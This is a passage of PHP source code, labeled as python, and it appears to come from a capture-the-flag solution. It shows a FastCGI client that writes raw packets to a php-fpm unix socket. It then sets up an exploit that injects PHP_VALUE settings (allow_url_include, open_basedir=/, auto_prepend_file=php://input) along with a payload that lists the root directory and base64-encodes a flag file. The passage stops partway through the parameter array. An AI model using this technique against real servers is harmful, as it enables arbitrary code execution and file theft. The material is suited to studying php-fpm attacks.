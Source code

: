 ```python
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');

        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');

        fwrite($this->_sock, $request);

        do {
            $resp = $this->readPacket();
            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
                $response .= $resp['content'];
            }
        } while ($resp && $resp['type'] != self::END_REQUEST);

        if (!is_array($resp)) {
            throw new Exception('Bad request');
        }
       
        switch (ord($resp['content'][4])) {
            case self::CANT_MPX_CONN:
                throw new Exception('This app cant multiplex [CANT_MPX_CONN]');
                break;
            case self::OVERLOADED:
                throw new Exception('New request rejected; too busy [OVERLOADED]');
                break;
            case self::UNKNOWN_ROLE:
                throw new Exception('Role value not known [UNKNOWN_ROLE]');
                break;
            case self::REQUEST_COMPLETE:
                return $response;
        }
    }
}


$client = new AA("unix:///var/run/php-fpm.sock");
$req = '/var/www/html/index.php';
$uri = $req .'?'.'command=ls';
var_dump($client);


$code = "<?php var_dump(scandir('/'));echo base64_encode(file_get_contents('/flag.h'));\\n?>";
$php_value = "allow_url_include = On\\nopen_basedir = /\\nauto_prepend_file = php://input";

$params = array(       
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => '/var/www/html/index.php',
        'SCRIPT_NAME'       => '/var/www/html/index.php',
        'QUERY_STRING'      => 'command=ls',
        'REQUEST_URI'       => $uri,
        'DOCUMENT_URI'      => $req,
        #'DOCUMENT_ROOT'     => '/',
        'PHP_VALUE'         => $php_value,
        'SERVER_SOFTWARE'   => 'asd',
```